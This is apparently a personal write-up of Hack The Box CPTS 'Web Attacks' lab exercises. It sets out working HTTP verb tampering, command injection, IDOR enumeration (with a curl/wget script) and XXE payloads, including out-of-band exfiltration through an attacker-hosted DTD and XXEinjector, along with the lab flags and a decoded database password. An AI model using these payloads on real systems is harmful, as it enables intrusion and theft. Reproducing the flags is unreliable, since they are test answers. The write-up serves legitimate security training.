





# CPTS labs - 22 Web Attacks

##  [Web Attacks](https://academy.hackthebox.com/module/details/134)

### HTTP Verb Tampering

**Try to use what you learned in this section to access the 'reset.php' page and delete all files. Once all files are deleted, you should get the flag.**

We access the website. Observe the Reset feature that triggers this request:

```HTML
GET /admin/reset.php? HTTP/1.1
Host: 94.237.54.42:42078
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.54.42:42078/
Upgrade-Insecure-Requests: 1
```

There is a modal asking for Basic Authentication, meaning that, at least GET /admin endpoint is protected by authentication. However we can trick the server by requesting the deletion of the file directly with: 

```
DEL /admin/reset.php?notes.txt HTTP/1.1
Host: 94.237.54.42:42078
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.54.42:42078/index.php
Upgrade-Insecure-Requests: 1
```

Flag is showcased after that. Results: HTB{4lw4y5_c0v3r_4ll_v3rb5}


 **To get the flag, try to bypass the command injection filter through HTTP Verb Tampering, while using the following filename: file; cp /flag.txt ./**

```
POST /index.php HTTP/1.1
Host: 94.237.54.116:49636
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Referer: http://94.237.54.116:49636/
Upgrade-Insecure-Requests: 1
Content-type: application/x-www-form-urlencoded
Content-Length: 28

filename=one;cp+/flag.txt+./
```

Now access to http://94.237.54.116:49636/flag.txt
Results: HTB{b3_v3rb_c0n51573n7}


### Insecure Direct Object References (IDOR)


**Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.**

We can run an intruder attack, being the payload the uid parameter. Finally, this payload will return a txt file

```
POST /documents.php HTTP/1.1
Host: 94.237.54.116:37509
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Origin: http://94.237.54.116:37509
Connection: keep-alive
Referer: http://94.237.54.116:37509/
Upgrade-Insecure-Requests: 1

uid=15
```

Accessing the http://94.237.54.116:37509/documents/flag_11dfa168ac8eb2958e38425728623c98.txt returns the flag.

Also we can do a script that retrieves all files of users 1 to 20

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..20}; do
        for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
                wget -q $url/$link
        done
done
```


Results: HTB{4ll_f1l35_4r3_m1n3}


**Try to download the contracts of the first 20 employee, one of which should contain the flag, which you can read with 'cat'. You can either calculate the 'contract' parameter value, or calculate the '.pdf' file name directly.**

After visiting the source code for the response to the request `GET /contracts.php HTTP/1.1`  we notice the following function:


```javascript
 <script>
    function downloadContract(uid) {
      window.location = `/download.php?contract=${encodeURIComponent(btoa(uid))}`;
    }
  </script>
```

The expression `${encodeURIComponent(btoa(uid))}` performs the following operations: 

1. **`btoa(uid)`**:

- The `btoa()` function encodes a string to **Base64**.
- `uid` is a variable or value representing the input string.
- **Example**: If `uid = "user123"`, then `btoa(uid)` will return `"dXNlcjEyMw=="`.

 2. **`encodeURIComponent(...)`**:

- The `encodeURIComponent()` function encodes a URI component by escaping characters that have special meanings in a URI (e.g., `&`, `=`, `/`, etc.).
- It ensures the Base64-encoded string is safe for use in URLs.

We can now perform an Intruder attack with the following request


```
GET //download.php?contract=('&1&') HTTP/1.1
Host: 94.237.54.116:37509
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
```

And adding the following payload processing:



Results: HTB{h45h1n6_1d5_w0n7_570p_m3}


 **Try to read the details of the user with 'uid=5'. What is their 'uuid' value?**

We capture our request for reading our profile and change uid to 5 

```
GET /profile/api.php/profile/5 HTTP/1.1
Host: 94.237.54.116:37509
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.54.116:37509/profile/index.php
Connection: keep-alive
```

Results: eb4fe264c10eb7a528b047aa983a4829


**Try to change the admin's email to 'flag@idor.htb', and you should get the flag on the 'edit profile' page.**

We enumerate users until we find admin one. In my case it was 10. Then we send the following PUT request changing the email:

```
PUT /profile/api.php/profile/10 HTTP/1.1
Host: 94.237.50.242:58057
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.50.242:58057/profile/index.php
Content-type: application/json
Content-Length: 179
Origin: http://94.237.50.242:58057
Connection: keep-alive
Cookie: role=staff_admin

{"uid":"10","uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"flag@idor.htb","about":"Never gonna give you up, Never gonna let you down"}
```

Then we enter in our edit profile section and see the flag.

Results: HTB{1_4m_4n_1d0r_m4573r}


**Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.**

First we check out that it is vulnerable to XXE.



This is the request: 

```
POST /submitDetails.php HTTP/1.1
Host: 10.129.13.187
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 205
Origin: http://10.129.13.187
Connection: keep-alive
Referer: http://10.129.13.187/

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:////etc/passwd" > ]>
<root>
<name>
[SNIP]
```

Now we retrieve the file: 



The request:

```
POST /submitDetails.php HTTP/1.1
Host: 10.129.13.187
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 266
Origin: http://10.129.13.187
Connection: keep-alive
Referer: http://10.129.13.187/

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=file:////var/www/html/connection.php" > ]>
<root>
<name>
```

Finally, we decode it: 

```
sudo echo "PD9waHAKCiRhcGlfa2V5ID0gIlVUTTFOak0wTW1SekoyZG1jVEl6TkQwd01YSm5aWGRtYzJSbUNnIjsKCnRyeSB7CgkkY29ubiA9IHBnX2Nvbm5lY3QoImhvc3Q9bG9jYWxob3N0IHBvcnQ9NTQzMiBkYm5hbWU9dXNlcnMgdXNlcj1wb3N0Z3JlcyBwYXNzd29yZD1pVWVyXnZkKGUxUGw5Iik7Cn0KCmNhdGNoICggZXhjZXB0aW9uICRlICkgewogCWVjaG8gJGUtPmdldE1lc3NhZ2UoKTsKfQoKPz4K" | base64 -d
```

Results: UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg


**Use either method from this section to read the flag at '/flag.php'. (You may use the CDATA method at '/index.php', or the error-based method at '/error').**
To bypass the previous limitation, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD: What's unique about parameter entities is that if we reference them from an external source.

```xml
<!ENTITY joined "%begin;%file;%end;">
```

So the final attack would be:

```bash
# From our kali
echo '<!ENTITY joined "%begin;%file;%end;">' > xxe.dtd

python3 -m http.server 8000
```

In the attacking payload that is uploaded to the target server:

```xml
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///flag.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://10.10.14.207:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>

<root>
<name></name>
<tel></tel>
<email>&joined;</email><!-- reference the &joined; entity to print the file content -->
<message></message>
</root>
```

**Note:** In some modern web servers, we may not be able to read some files (like index.php), as the web server would be preventing a DOS attack caused by file/entity self-reference (i.e., XML entity reference loop).



Results:  HTB{3rr0r5_c4n_l34k_d474}


**Using Blind Data Exfiltration on the '/blind' page to read the content of '/327a6c4304ad5938eaf0efb6cc3e53dc.php' and get the flag.**

We will use the tool XXEInjector:

```bash
git clone https://github.com/enjoiz/XXEinjector.git
```

Once cloned, we will save our potentially vulnerable request into a file `xxe.req`. We will place the word `XXEINJECT` as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.210.196
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 167
Origin: http://10.129.210.196
Connection: keep-alive
Referer: http://10.129.210.196/blind/

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
<root>
<name>lala</name>
<tel>11237865432</tel>
<email>lala@lalal.com</email>
<message>sksaka</message>
</root>
```

Now we can run the tool:

```bash
ruby XXEinjector.rb --host=10.10.14.207 --httpport=8000 --file=xxe.req --path=/327a6c4304ad5938eaf0efb6cc3e53dc.php --oob=http --phpfilter
```

And see the logs under the new created Log folder within the tool:

```bash
cat Logs/10.129.210.196/327a6c4304ad5938eaf0efb6cc3e53dc.php.log 
```

Results: 

```
<?php $flag = "HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}"; ?>
```

Results: HTB{1_d0n7_n33d_0u7pu7_70_3xf1l7r473_d474}


### Skills Assessment


Try to escalate your privileges and exploit different vulnerabilities to read the flag at '/flag.php'.

We can enumerate user with the GET request:

```
GET /api.php/user/74 HTTP/1.1
```

After launching an Intruder attack we retrieve users from uid 1 to uid 100. We filter them out and get the user Administrator:

```
HTTP/1.1 200 OK
Date: Sun, 12 Jan 2025 21:42:51 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 90
Keep-Alive: timeout=5, max=93
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

{"uid":"52","username":"a.corrales","full_name":"Amor Corrales","company":"Administrator"}
```

We observe that we can change our password. But also, by retrieving the token for any other user with:

```html
GET /api.php/token/52
```

And for updating the password, the original request is:

```html
POST /reset.php HTTP/1.1
Host: 94.237.62.184:54493
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.62.184:54493/settings.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 65
Origin: http://94.237.62.184:54493
Connection: keep-alive
Cookie: PHPSESSID=7gjv9r7sbl1nvlrrlv2sbgjsfl; uid=74

uid=74&token=e51a8a14-17ac-11ec-8e67-a3c050fe0c26&password=lalala
```

If we perform an HTTP verb tampering attack we can bypass the authorization restriction:

```html
GET /reset.php?uid=52&token=e51a85fa-17ac-11ec-8e51-e78234eb7b0c&password=lalala HTTP/1.1
Host: 94.237.62.184:54493
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.62.184:54493/settings.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Origin: http://94.237.62.184:54493
Connection: keep-alive
Cookie: PHPSESSID=7gjv9r7sbl1nvlrrlv2sbgjsfl; uid=74


```

We have updated the Administrator's password. Now we access to that account. We can see there is a new feature for creating an event. This is the original request that we send:

```html
POST /addEvent.php HTTP/1.1
Host: 94.237.62.184:54493
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.62.184:54493/event.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 163
Origin: http://94.237.62.184:54493
Connection: keep-alive
Cookie: PHPSESSID=7gjv9r7sbl1nvlrrlv2sbgjsfl; uid=52


            <root>
            <name>Name of event</name>
            <details>lele</details>
            <date>2025-01-13</date>
            </root>
```

Our payload:

```html
POST /addEvent.php HTTP/1.1
Host: 94.237.62.184:54493
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.62.184:54493/event.php
Content-Type: text/plain;charset=UTF-8
Content-Length: 289
Origin: http://94.237.62.184:54493
Connection: keep-alive
Cookie: PHPSESSID=7gjv9r7sbl1nvlrrlv2sbgjsfl; uid=52

<?xml version = "1.0"?><!DOCTYPE foo [<!ENTITY example1 SYSTEM "php://filter/convert.base64-encode/resource=file:///flag.php"> ]>
            <root>
            <name>&example1;</name>
            <details>lele</details>
            <date>2025-01-13</date>
            </root>
```



After decoding the response `PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K`
we obtain: `<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>`

Results: HTB{m4573r_w3b_4774ck3r}

